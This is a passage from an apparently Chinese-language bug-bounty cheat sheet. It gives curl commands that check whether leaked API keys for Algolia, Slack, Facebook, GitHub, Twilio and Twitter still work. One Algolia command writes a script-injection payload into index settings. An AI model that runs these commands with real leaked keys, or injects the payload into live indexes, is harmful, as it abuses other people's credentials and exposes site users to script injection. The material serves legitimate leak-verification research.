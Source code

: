   影响：

  - 消耗公司的月度配额或通过未经授权使用该服务导致公司超额付费，对公司造成经济损失
  - 如果Google账户中存在最大账单控制设置的限制，可以对特定服务进行拒绝服务攻击

### Algolia 

```powershell
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```

### Slack API Token

```powershell
curl -sX POST "https://slack.com/api/auth.test?token=xoxp-TOKEN_HERE&pretty=1"
```

### Facebook Access Token

```powershell
curl https://developers.facebook.com/tools/debug/accesstoken/?access_token=ACCESS_TOKEN_HERE&version=v3.2
```

### Github client id and client secret

```powershell
curl 'https://api.github.com/users/whatever?client_id=xxxx&client_secret=yyyy'
```

### Twilio Account_sid and Auth token

```powershell
curl -X GET 'https://api.twilio.com/2010-04-01/Accounts.json' -u ACCOUNT_SID:AUTH_TOKEN
```

### Twitter API Secret

```powershell
curl -u 'API key:API secret key' --data 'grant_type=client_credentials' 'https://api.twitter.com/oauth2/token'
```

### Twitter Bearer Token

```powershell
curl --request GET --url https://api.twitter.com/1.1/account_activity/all/subscriptions/count.json --header 'authorization: Bearer TOKEN'
```

### Gitlab Personal Access Token
